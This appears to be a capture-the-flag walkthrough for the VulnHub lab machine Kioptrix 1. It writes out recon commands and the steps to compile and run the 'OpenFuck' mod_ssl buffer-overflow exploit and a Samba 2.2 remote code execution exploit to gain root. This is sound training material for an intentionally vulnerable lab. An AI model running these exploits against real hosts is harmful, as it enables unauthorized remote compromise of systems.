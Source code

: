 #Kioptrix 1 - VulnHub

**netdiscover -i eth0**

![kio1](https://user-images.githubusercontent.com/15195048/95851963-4b32d000-0d53-11eb-801a-7851796a3b23.png)

**IP 192.168.1.10**

**nmap -sC -sV 192.168.1.10**

https://user-images.githubusercontent.com/15195048/95851965-4c63fd00-0d53-11eb-9b2a-855be54df5ba.png

## 1. Exploiting Apache 

OpenSSH 2.9p2 (protocol 1.99)
Http mod_ssl/2.8.4
This module provides SSL v2/v3 and TLS v1 support for the Apache HTTP Server. 
Exploits: Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuckV2.c' Remote Buffer Overflow 

**searchsploit mod_ssl**

https://user-images.githubusercontent.com/15195048/95851966-4cfc9380-0d53-11eb-911e-2d0536d6b4b3.png
 
## A) ExploitDB 
Link:https://www.exploit-db.com/exploits/764
number of errors
FIX
https://medium.com/@snowshoe/how-to-compile-openfuckv2-c-69e457b4a1d1

## B) GITHUB

Link:https://github.com/exploit-inters/OpenFuck

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
git clone https://github.com/heltonWernik/OpenFuck.git
apt-get install python3.8-venv
apt-get install libssl-dev
gcc -o OpenFuck OpenFuck.c -lcrypto
./OpenFuck
./OpenFuck 0x6a 192.168.80.145 443 -c 40
error
./OpenFuck 0x6b 192.168.80.145 443 -c 40 works
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


https://user-images.githubusercontent.com/15195048/95851969-4cfc9380-0d53-11eb-98d4-8b7642f08530.png

## 2. Samba Exploit

** 1.enum4linux -a 192.168.1.10

2.smbclient 192.168.1.10 or smbclient -N -L \\192.168.1.10\\

3.nmap -p 139 --script=smb-vuln* 192.168.1.10

4.smbmap -P 139 -H 192.168.1.10 **

5.samba_version.py Github
https://github.com/amitn322/smb-version/blob/master/samba_version.py
python smb-version/samba_version.py -s 192.168.1.10

https://user-images.githubusercontent.com/15195048/95851970-4d952a00-0d53-11eb-9d2a-27844dc33287.png

Samba2.2
searchsploit samba 2.2

https://user-images.githubusercontent.com/15195048/95851974-4e2dc080-0d53-11eb-9467-a88125c91e68.png


Samba < 2.2.8 (Linux/BSD) - Remote Code Execution


https://user-images.githubusercontent.com/15195048/95851978-4ec65700-0d53-11eb-8007-ac8f11e13e5f.pnghttps://user-images.githubusercontent.com/15195048/95851983-4ec65700-0d53-11eb-98ea-370a424c4437.png

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
gcc 10.c
./a.out -b -o 192.168.1.10
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

https://user-images.githubusercontent.com/15195048/95851983-4ec65700-0d53-11eb-98ea-370a424c4437.png

Rooted
